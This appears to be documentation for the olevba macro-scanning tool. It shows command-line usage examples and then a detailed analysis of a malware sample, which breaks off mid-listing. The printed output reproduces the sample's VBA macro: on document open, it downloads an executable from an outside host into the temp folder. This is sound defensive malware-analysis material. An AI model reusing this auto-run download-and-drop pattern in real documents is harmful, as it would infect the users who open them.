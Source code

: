     :::text
    olevba.py file.doc
    
Scan a single file, stored in a Zip archive with password "infected":

    :::text
    olevba.py malicious_file.xls.zip -z infected
    
Scan a single file, showing all obfuscated strings decoded:

    :::text
    olevba.py file.doc --decode
    
Scan VBA source code extracted into a text file:

    :::text
    olevba.py -i source_code.vba

Scan a collection of files stored in a folder:

    :::text
    olevba.py MalwareZoo/VBA/*
    
Scan all .doc and .xls files, recursively in all subfolders:

    :::text
    olevba.py MalwareZoo/VBA/*.doc MalwareZoo/VBA/*.xls -r
    
Scan all .doc files within all .zip files with password, recursively:

    :::text
    olevba.py MalwareZoo/VBA/*.zip -r -z infected -f *.doc


### Detailed analysis mode (default for single file)

When a single file is scanned, or when using the option -d, all details of the analysis are displayed. 

For example, checking the malware sample [DIAN_caso-5415.doc](https://malwr.com/analysis/M2I4YWRhM2IwY2QwNDljN2E3ZWFjYTg3ODk4NmZhYmE/):

	:::text
    >olevba.py c:\MalwareZoo\VBA\DIAN_caso-5415.doc.zip -z infected
    ===============================================================================
    FILE: DIAN_caso-5415.doc.malware in c:\MalwareZoo\VBA\DIAN_caso-5415.doc.zip
    Type: OLE
    -------------------------------------------------------------------------------
    VBA MACRO ThisDocument.cls
    in file: DIAN_caso-5415.doc.malware - OLE stream: Macros/VBA/ThisDocument
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    Option Explicit
    Private Declare Function URLDownloadToFileA Lib "urlmon" (ByVal FVQGKS As Long,_
    ByVal WSGSGY As String, ByVal IFRRFV As String, ByVal NCVOLV As Long, _
    ByVal HQTLDG As Long) As Long
    Sub AutoOpen()
        Auto_Open
    End Sub
    Sub Auto_Open()
    SNVJYQ
    End Sub
    Public Sub SNVJYQ()
        OGEXYR "http://germanya.com.ec/logs/test.exe", Environ("TMP") & "\sfjozjero.
    exe"
    End Sub
    Function OGEXYR(XSTAHU As String, PHHWIV As String) As Boolean
        Dim HRKUYU, lala As Long
        HRKUYU = URLDownloadToFileA(0, XSTAHU, PHHWIV, 0, 0)
        If HRKUYU = 0 Then OGEXYR = True
        Dim YKPZZS